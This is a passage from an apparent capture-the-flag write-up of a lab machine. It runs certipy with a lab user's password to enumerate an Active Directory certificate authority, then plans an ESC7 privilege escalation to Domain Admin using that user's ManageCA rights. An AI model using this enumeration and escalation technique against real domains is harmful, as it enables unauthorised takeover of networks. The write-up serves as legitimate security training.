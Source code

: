 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

We'll attempt to identify potential misconfigurations within the Certification Authority. Let's utilize
`certipy` to find any vulnerabilities that may exist.

`certipy-ad find -u 'raven' -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable`:
```
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA ←
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven ←
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven ←
    [!] Vulnerabilities ←
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions ←
Certificate Templates                   : [!] Could not find any certificate templates ←
```

The report indicates that the user `Raven` possesses hazardous permissions, particularly having
"ManageCA" rights over the Certification Authority. This implies that by leveraging the ESC7 scenario, we could potentially elevate our privileges to "Domain Admin" while operating as user `Raven`. A detailed explanation about the exploitation process for the ESC7 scenario can be found
[here](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-authority-access-control-esc7).
To exploit this, we'll need to first add `Raven` as an "officer", so that we can manage certificates and issue them manually.
